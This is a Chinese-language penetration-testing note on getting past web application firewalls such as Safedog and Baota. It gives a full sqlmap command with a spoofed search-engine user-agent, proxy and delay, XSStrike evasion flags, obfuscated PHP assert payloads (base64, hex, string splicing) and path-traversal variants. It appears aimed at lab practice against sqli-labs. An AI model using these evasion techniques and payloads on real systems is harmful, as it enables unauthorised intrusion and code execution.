


# WAF漏洞利用



## SQL 注入

### 注入方式

#### 手工注入

简单、不需要考虑CC 防护

#### 工具注入

sqlmap 速度很快，会触发CC防御，safedog CC 绕过

1. 修改user-agent，使用搜索引擎的头去绕过
2. 代理池：换ip
3. 延时设置： --delay

注入的编写sqlmap的tamper模块（自写注入规则），进行绕过。

```sqlmap
python sqlmap.py -u "http://192.168.132.139/mypage/sqli-labs/Less-1/?id=1" --user-agent="Mozilla/5.0 (compatible; Baiduspider-render/2.0; +http://www.baidu.com/search/spider.html)" --proxy="http://127.0.0.1:8080" --batch --delay 3
```

其中

--delay是延迟，--proxy是代理，--temper是自己的注入规则。

如果是宝塔，会检测`/*` ，解决方法，在`/*`之前使用%00截断（这种方法也失效了）

## 文件上传

直接文件后缀名截断即可，参考前面的内容[[网安笔记/文件操作/WAF安全狗绕过/index#常见绕过方法]]

## XSS

利用 XSStrike 绕过 加上--timeout 或--proxy 绕过 cc

```
xsstrike.py -u "目标网址" --timeout x  延时
xsstrike.py -u "目标网址" --proxy  代理地址
```

## RCE

绕过方法

1. base64，有一个问题就是，当你使用base64_decode对`phpinfo();`进行编码的时候没有办法在相应的页面显示。`assert(base64_decode("cGhwaW5mbygpOw=="));`

2. 十六进制，`assert(pack("H*",'706870696e666f28293b'));`

3. 字符替换，`assert(str_replace('x','','pxhpxinxfo()'));`

4. 提交方法，可以将GET修改为REQUEST。

   ```php
   $X='asse';$xx=$_GET['x'];$xxx=$X.$xx;$y=str_replace('x','','pxhpxinxfo()');$xxx($y);
   ```

   

5. url编码

6. 拼接加替换

   ```php
   $X='asse';$xx='rt';$xxx=$X.$xx;$y=str_replace('x','','pxhpxinxfo()');$xxx($y);
   ```

## 文件包含

没什么好说的就这几种：`..\`， `..../`，`..\.\`，`../`。
